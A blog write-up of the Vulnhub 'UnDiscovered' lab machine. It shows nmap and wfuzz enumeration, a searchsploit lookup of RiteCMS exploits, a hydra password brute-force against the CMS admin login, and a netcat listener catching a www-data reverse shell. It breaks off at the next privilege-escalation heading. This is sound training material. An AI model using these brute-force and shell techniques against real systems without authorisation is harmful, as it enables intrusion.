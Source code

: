 ```yaml
---
title: Vulnhub - UnDiscovered
description: My writeup on UnDiscovered box.
categories:
 - vulnhub
tags: vulnhub nfs
---
```


![](https://i.imgur.com/mmvSbqs.png)

You can find the machine there > [UnDiscovered](https://www.vulnhub.com/entry/undiscovered-101,550/){:target="_blank"}

## Summary

This was one of the best vulnhub box, thanks to [@aniqfakhrul](https://twitter.com/aniqfakhrul){:target="_blank"} & [@h0j3n](https://twitter.com/h0j3n){:target="_blank"} for this awesome box! Let’s pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.5                                     
$ nmap -p- -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-30 21:10 EEST
Nmap scan report for undiscovered.zte.com.cn (192.168.1.5)
Host is up (0.00036s latency).
Not shown: 65530 closed ports
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:76:81:49:50:bb:6f:4f:06:15:cc:08:88:01:b8:f0 (RSA)
|   256 2b:39:d9:d9:b9:72:27:a9:32:25:dd:de:e4:01:ed:8b (ECDSA)
|_  256 2a:38:ce:ea:61:82:eb:de:c4:e0:2b:55:7f:cc:13:bc (ED25519)
80/tcp    open  http     Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://undiscovered.thm
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100021  1,3,4      34047/tcp6  nlockmgr
|   100021  1,3,4      44886/tcp   nlockmgr
|   100021  1,3,4      51937/udp   nlockmgr
|   100021  1,3,4      55740/udp6  nlockmgr
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
2049/tcp  open  nfs      2-4 (RPC #100003)
44886/tcp open  nlockmgr 1-4 (RPC #100021)
```

Lot of interesting stuff, let's enumerate port 80 first. When we visit port 80 doens't load, nmap scan says something important `Did not follow redirect to http://undiscovered.thm` probably a virtual host we have to add it to `/etc/hosts`:

```
$ echo "192.168.1.5 undiscovered.thm" | tee -a /etc/hosts
192.168.1.5 undiscovered.thm
$ cat /etc/hosts
..data..
192.168.1.5 undiscovered.thm
```

Now it works, i tried lot of stuff like `gobuster`,`dirb` but nothing at all. Since we have a virtual host we can enumerate for subdomains. Let's fire up `wfuzz`:

```
$ wfuzz -w /root/Documents/wordlists/SecLists/Discovery/DNS/shubs-subdomains.txt -H "Host: FUZZ.undiscovered.thm" --hw 26 undiscovered.thm

000000096:   200        68 L     341 W    4626 Ch     "dashboard"                                                                                                             
000000102:   200        83 L     341 W    4599 Ch     "booking"                                                                                                               
000000129:   200        68 L     341 W    4521 Ch     "play"                                                                                                                  
000000156:   200        68 L     341 W    4626 Ch     "resources"                                                                                                             
000000218:   200        68 L     341 W    4542 Ch     "forms"                                                                                                                 
000000257:   200        68 L     341 W    4542 Ch     "start"                                                                                                                 
000000553:   200        68 L     341 W    4584 Ch     "manager"                                                                                                               
000000681:   200        68 L     341 W    4584 Ch     "network"                                                                                                               
000000733:   200        68 L     341 W    4605 Ch     "internet"                                                                                                              
000000889:   200        68 L     341 W    4521 Ch     "view"                                                                                                                  
000001245:   200        68 L     341 W    4521 Ch     "gold"                                                                                                                  
000001305:   200        68 L     341 W    4668 Ch     "maintenance"                                                                                                           
000005963:   200        68 L     341 W    4605 Ch     "terminal"                                                                                                              
000006033:   200        68 L     341 W    4584 Ch     "newsite"                                                                                                               
000007423:   200        68 L     341 W    4584 Ch     "develop"                                                                                                               
000022957:   200        68 L     341 W    4605 Ch     "mailgate"                                                                                                              
000034373:   200        82 L     341 W    4650 Ch     "deliver" 
```

Lot subdomains, all of them run `RiteCMS` but most of them seem broken admin panel missing. One of them works thats `deliver.undiscovered.thm` let's add it to `/etc/hosts`:

```
$ echo "192.168.1.5 deliver.undiscovered.thm" | tee -a /etc/hosts
192.168.1.5 deliver.undiscovered.thm
$ cat /etc/hosts 
..data..
192.168.1.5 undiscovered.thm
192.168.1.5 deliver.undiscovered.thm
```

## Shell as www-data

Now we can see the admin panel under `/cms`:

![](https://i.imgur.com/FINKQFM.png)

Let's search for possible exploits on RiteCMS:

```
$ searchsploit -w ritecms
-----------------------------------------------------------------------------------------------------------------
 Exploit Title                                                       |  URL
-----------------------------------------------------------------------------------------------------------------
RiteCMS 1.0.0 - Multiple Vulnerabilities                             | https://www.exploit-db.com/exploits/27315
RiteCMS 2.2.1 - Authenticated Remote Code Execution                  | https://www.exploit-db.com/exploits/48636
-----------------------------------------------------------------------------------------------------------------
```

Second one seems perfect, but we need creds. Tried default username/password `admin:admin` but didn't work. Let's fire up hydra!

```
$ hydra -l admin -P /usr/share/wordlists/rockyou.txt deliver.undiscovered.thm http-post-form "/cms/index.php:username=admin&userpw=^PASS^:User unknown or password wrong"

[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://deliver.undiscovered.thm:80/cms/index.php:username=admin&userpw=^PASS^:User unknown or password wrong
[80][http-post-form] host: deliver.undiscovered.thm   login: admin   password: liverpool
```

& we're in as `admin:liverpool` follow my steps for shell upload:

![](https://i.imgur.com/OJnp4pH.png)

![](https://i.imgur.com/w5qgPOD.png)

![](https://i.imgur.com/xlopYfo.png)

![](https://i.imgur.com/leifpNg.png)

```
$ nc -lvp 5555
listening on [any] 5555 ...

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@undiscovered:/$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as william


